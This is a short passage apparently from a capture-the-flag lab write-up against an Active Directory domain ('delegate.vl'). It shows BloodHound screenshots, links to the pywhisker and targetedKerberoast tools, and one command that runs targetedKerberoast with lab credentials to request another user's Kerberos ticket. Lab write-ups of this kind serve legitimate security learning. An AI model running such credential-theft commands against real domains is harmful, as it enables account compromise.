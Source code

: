 ![!\[alt text\](../assets/images/Screenshot 2025-03-06 at 07-50-01 BloodHound.png)
](<../assets/images/Screenshot 2025-03-06 at 07-50-01 BloodHound.png>)

[pywhisker](https://github.com/ShutdownRepo/pywhisker)

[targetedKerberoast](https://github.com/ShutdownRepo/targetedKerberoast)

![alt text](../assets/images/Screenshot_2025-03-06_07_55_42.png)

    ➜  targetedKerberoast git:(main) python3 targetedKerberoast.py -u 'A.Briggs' -p 'P4ssw0rd1#123' --request-user N.Thompson -d 'delegate.vl'

![alt text](../assets/images/Screenshot_2025-03-06_07_59_26.png)
